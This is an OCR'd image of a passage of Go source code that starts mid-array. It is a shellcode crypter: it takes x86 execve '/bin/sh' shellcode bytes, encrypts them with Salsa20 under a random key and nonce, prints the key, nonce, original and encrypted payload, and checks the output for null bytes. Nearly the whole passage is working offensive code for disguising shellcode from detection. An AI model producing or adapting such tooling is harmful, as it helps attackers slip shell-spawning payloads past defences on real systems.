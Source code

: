 ```golang
            0xb0, 0x0b, 0xcd, 0x80, 0xe8, 0xe1, 0xff, 0xff,
            0xff, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68,
            0x41, 0x42, 0x42, 0x42, 0x42, 0x43, 0x43, 0x43,
            0x43 }

    out := make([]byte, len(in))

    // Generate a random 24 bytes nonce
    nonce := make([]byte, 24)
    if _, err := rand.Read(nonce); err != nil {
            panic(err)
    }

    // Generate a random 32 bytes key
    key_slice := make([]byte, 32)
    if _, err := rand.Read(key_slice); err != nil {
        panic(err)
    }
    var key [32]byte
    copy(key[:], key_slice[:])

    fmt.Printf("Key len: %d bytes\n", len(key))

    fmt.Printf("Key: ")
    for _, element := range key {
        fmt.Printf("%#x,", element)
    }
    fmt.Printf("\n")

    fmt.Printf("Nonce: ")
    for _, element := range nonce {
        fmt.Printf("%#x,", element)
    }
    fmt.Printf("\n")

    fmt.Printf("Original shellcode: ")

    for _, element := range in {
            fmt.Printf("%#x,", element)
    }
    fmt.Printf("\n")
    salsa20.XORKeyStream(out, in, nonce, &key)

    fmt.Printf("Encrypted shellcode: ")
    for _, element := range out {
        fmt.Printf("%#x,", element)
    }
    fmt.Printf("\n")

    for _, element := range out {
        if element == 0 {
            fmt.Printf("##########################\n")
            fmt.Printf("WARNING null byte detected\n")
            fmt.Printf("##########################\n")
            os.Exit(1)
        }
    }
}
```
